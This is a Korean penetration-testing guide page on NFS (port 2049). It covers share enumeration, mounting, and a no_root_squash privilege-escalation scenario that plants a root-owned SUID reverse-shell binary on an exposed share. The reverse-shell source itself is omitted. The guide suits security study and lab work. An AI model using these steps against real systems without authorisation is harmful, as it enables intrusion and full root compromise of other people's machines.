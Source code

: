```yaml
---
layout: page
title: NFS_(2049)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


# NFS (2049) 가이드

NFS(Network File System)는 원격 시스템의 디렉터리를 로컬 시스템에 마운트하여, 마치 로컬 파일처럼 사용할 수 있게 해주는 프로토콜입니다. 설정이 미흡할 경우, 심각한 보안 취약점으로 이어질 수 있습니다.

---

### **1. NFS Enumeration**

- **목표:** NFS 서버가 어떤 디렉터리를 외부에 공유하고 있는지 확인합니다.

```bash
nmap -sV --script=nfs-showmount $target -v

# -e, --exports: 서버의 공유 목록(export list)을 보여줌
showmount -e $target
```

- **결과 분석:** 출력된 공유 디렉터리 경로와 함께, 접근이 허용된 IP 주소나 대역(`*`는 모두 허용)을 확인합니다.

---

### **2. 공유 디렉터리 마운트 (Mounting the Share)**

- **목표:** 확인된 공유 디렉터리를 로컬 머신에 연결하여 내부 파일을 탐색합니다.

#### **단계별 절차:**

1.  **로컬 마운트 지점 생성:**
```bash
mkdir /mnt/nfs_share
```

2.  **원격 공유 마운트:**
```bash
# -t nfs: 파일 시스템 타입을 NFS로 지정
# -o nolock: 파일 잠금을 사용하지 않아 구형 NFS 서버와의 호환성 문제를 줄여줌
mount -t nfs $target:/path/to/share /mnt/nfs_share -o nolock
```

3.  **탐색 및 정리:**
```bash
# 마운트된 디렉터리로 이동하여 파일 시스템 탐색
cd /mnt/nfs_share
ls -la

# 작업 완료 후 반드시 마운트 해제
umount /mnt/nfs_share
```

---

### **3. 주요 공격 벡터: `no_root_squash`**

- **개념:** `no_root_squash`는 NFS 공유의 가장 위험한 설정 중 하나입니다. 기본적으로 NFS는 클라이언트의 `root` 사용자가 공유 폴더에 접근하면, 권한이 없는 `nobody` 사용자로 강등시킵니다(이를 `root_squash`라 함). 하지만 `no_root_squash` 옵션이 설정되어 있으면, **클라이언트의 `root`가 서버에서도 `root` 권한을 그대로 유지**하게 됩니다.

- **공격 시나리오:**

  1.  `no_root_squash`로 설정된 공유를 로컬 `root` 권한으로 마운트합니다.
  2.  공격자 머신에서 C 코드로 리버스 셸 페이로드를 작성하고 컴파일합니다.
      ```bash(title="공격자: 리버스 셸 작성 및 컴파일")
      # revshell.c 작성
      # ...
      gcc revshell.c -o revshell
      ```
  3.  컴파일된 리버스 셸 파일을 마운트된 디렉터리로 복사합니다.
      ```bash
      sudo cp revshell /mnt/nfs_share/
      ```
  4.  마운트된 디렉터리 내에서 해당 파일의 소유자를 `root`로 변경하고, **SUID 비트를 설정**합니다.
      ```bash
      sudo chown root:root /mnt/nfs_share/revshell
      sudo chmod 4755 /mnt/nfs_share/revshell
      ```
  5.  이제 타겟 시스템의 일반 사용자가 해당 공유 폴더에 접근하여 `revshell` 파일을 실행하면, **파일 소유자인 `root`의 권한으로 Reverse Shell이 실행**되어 공격자에게 `root` Shell이 연결됩니다.


